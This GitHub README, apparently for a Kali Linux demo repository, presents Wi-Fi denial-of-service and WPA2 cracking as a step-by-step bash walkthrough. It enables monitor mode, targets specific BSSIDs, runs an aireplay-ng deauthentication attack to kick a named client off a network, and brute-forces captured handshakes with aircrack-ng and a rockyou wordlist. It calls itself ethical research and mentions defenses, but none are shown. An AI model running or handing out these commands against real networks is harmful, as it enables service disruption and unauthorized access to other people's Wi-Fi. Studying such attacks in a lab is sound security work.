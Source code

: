 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.


# WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng).  
Covers deauth attacks, brute-force cracking, and defenses.  
Includes PPT on attack types, tools, and commands.  
**For ethical research only.**

---

## Demonstration

```bash
# View network interfaces
ifconfig

# Start monitor mode on wlan0
airmon-ng start wlan0

# Kill interfering processes
airmon-ng check kill

# Confirm monitor mode
iwconfig

# Start scanning for Wi-Fi networks
airodump-ng -i wlan0mon

# Target specific BSSID and channel
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon

# Deauthentication Attack (Kick clients out)
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon

#Brute Force Attack
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt

aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap

#Stop Monitor Mode
airmon-ng stop wlan0mon
service network-manager restart
